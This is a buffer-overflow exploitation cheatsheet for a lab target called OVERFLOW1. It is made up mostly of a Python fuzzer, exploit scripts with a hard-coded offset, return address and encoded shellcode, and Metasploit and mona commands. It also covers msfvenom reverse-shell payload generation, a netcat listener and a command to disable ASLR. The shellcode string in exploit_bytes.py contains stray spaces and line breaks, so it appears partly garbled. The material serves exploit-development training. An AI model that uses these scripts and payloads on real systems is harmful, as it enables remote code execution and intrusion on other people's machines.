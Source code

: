 # BOF Cheatsheet

### fuzzer.py

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### exploit.py

<pre class="language-python"><code class="lang-python">#!/usr/bin/env python3

<strong>import socket
</strong>
ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
</code></pre>

### exploit\_bytes.py

```python
offset = 1308
overflow = "A" * offset
retn = "\xba\x11\x80\x14"
padding = "\x90" * 16
payload="\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\x5f\x35\xae\x3d\x83\xee\xfc\xe2\xf4 \xa3\xdd\x2c\x3d\x5f\x35\xce\xb4\xba\x04\x6e\x59\xd4\x65\x9e\xb6\x0d\x39\x25\x6f\x4b\xbe\xdc\x15\x50\x82\ xe4\x1b\x6e\xca\x02\x01\x3e\x49\xac\x11\x7f\xf4\x61\x30\x5e\xf2\x4c\xcf\x0d\x62\x25\x6f\x4f\xbe\xe4\x01\x d4\x79\xbf\x45\xbc\x7d\xaf\xec\x0e\xbe\xf7\x1d\x5e\xe6\x25\x74\x47\xd6\x94\x74\xd4\x01\x25\x3c\x89\x04\x5 1\x91\x9e\xfa\xa3\x3c\x98\x0d\x4e\x48\xa9\x36\xd3\xc5\x64\x48\x8a\x48\xbb\x6d\x25\x65\x7b\x34\x7d\x5b\xd4 \x39\xe5\xb6\x07\x29\xaf\xee\xd4\x31\x25\x3c\x8f\xbc\xea\x19\x7b\x6e\xf5\x5c\x06\x6f\xff\xc2\xbf\x6a\xf1\ x67\xd4\x27\x45\xb0\x02\x5d\x9d\x0f\x5f\x35\xc6\x4a\x2c\x07\xf1\x69\x37\x79\xd9\x1b\x58\xca\x7b\x85\xcf\x 34\xae\x3d\x76\xf1\xfa\x6d\x37\x1c\x2e\x56\x5f\xca\x7b\x6d\x0f\x65\xfe\x7d\x0f\x75\xfe\x55\xb5\x3a\x71\xd d\xa0\xe0\x39\x57\x5a\x5d\x6e\x95\x28\xb0\xc6\x3f\x5f\x34\x15\xb4\xb9\x5f\xbe\x6b\x08\x5d\x37\x98\x2b\x54 \x51\xe8\xda\xf5\xda\x31\xa0\x7b\xa6\x48\xb3\x5d\x5e\x88\xfd\x63\x51\xe8\x37\x56\xc3\x59\x5f\xbc\x4d\x6a\ x08\x62\x9f\xcb\x35\x27\xf7\x6b\xbd\xc8\xc8\xfa\x1b\x11\x92\x3c\x5e\xb8\xea\x19\x4f\xf3\xae\x79\x0b\x65\x f8\x6b\x09\x73\xf8\x73\x09\x63\xfd\x6b\x37\x4c\x62\x02\xd9\xca\x7b\xb4\xbf\x7b\xf8\x7b\xa0\x05\xc6\x35\xd 8\x28\xce\xc2\x8a\x8e\x5e\x88\xfd\x63\xc6\x9b\xca\x88\x33\xc2\x8a\x09\xa8\x41\x55\xb5\x55\xdd\x2a\x30\x15\x7a\x4c\x47\xc1\x57\x5f\x66\x51\xe8"
buffer = overflow + retn + padding + payload
with open("exploit_bytes.txt","wb") as f:
    f.write(bytes(buffer + "\n", "latin-1"))

```

### \x01 to \xff

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

### 1. Pattern Create

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800
```

### 2. Finding offset where EIP overwrite happens

```bash
msf-pattern_offset -l 800 -q 42306142
```

{% hint style="info" %}
-l: the length of the original pattern&#x20;

-q: specify the bytes found in EIP
{% endhint %}

### 3. Find bad chars&#x20;

#### Manual method:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
```

```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```

{% hint style="info" %}
Above script will generate exploit.txt that contains the raw bytes from \x01 to \xff (By default \x00 is bad char)

Use `bvi` to edit the raw hex bytes!
{% endhint %}

* Overflow the buffer to gain control of EIP register and append the entire \x01 to \xff bytearray to the shellcode.
* Use Immunity Debugger to run the program --> click on ESP register --> `Follow in Dump`
* Check the stack values against the original bytearray to figure out the bad characters.
* After finding a bad char, note it down and remove it from the bytearray shellcode and repeat the process again until the \xff appears.

#### Mona method:

```
!mona config -set workingfolder c:\Users\admin\Desktop
```

```
!mona bytearray -b "\x00"
```

```
!mona compare -f c:\Users\admin\Desktop\bytearray.bin -a <ESP addr>
```

{% hint style="info" %}
After finding a bad char, remove it and send the remaining payload again. Find the bad chars one by one (since bad chars may affect the chars adjacent to it).
{% endhint %}

### 4. Finding a jump point

```bash
!mona jmp -r esp -cpb "\x00\x0a"
```

{% hint style="info" %}
Update the -cpb option with all the badchars you identified (including \x00)
{% endhint %}

* Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### 5. Generate payloads

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

{% hint style="info" %}
* -f c: To select C-formatted shellcode
* -e x86/shikata\_ga\_nai: use of the polymorphic encode shikata\_ga\_nai (It can’t be helped)
* -b “\x00\x0a..”: specifies the bad chars
{% endhint %}

{% hint style="info" %}
* For linux --> -p linux/x86/shell\_reverse\_tcp
{% endhint %}

### 6. Prepend NOPs

```
padding = "\x90" * 16
```

{% hint style="info" %}
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself.
{% endhint %}

### 7. Obtain shell

```
netcat -lvp 4444
```

### Troubleshooting

Some bad chars only appear when they are adjacent to certain chars. Hence, it is wise to check the hex values of the created shellcode against the values present in the stack (ESP --> Follow Dump)

#### To check hex values of created shellcode

```bash
xxd -g 1 -c 8 exploit_bytes.txt
```

{% hint style="info" %}
-g: number of octets per group

-c: format octets per line
{% endhint %}

#### Find Function Address

```bash
objdump -D execution-flow-windows.exe | grep <func_name>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Need to convert the address to little endian format (00401530 --> \x30\x15\x40\x00)
{% endhint %}

#### Disable ASLR for Linux

```bash
echo 0 | tee /proc/sys/kernel/randomize_va_space
```
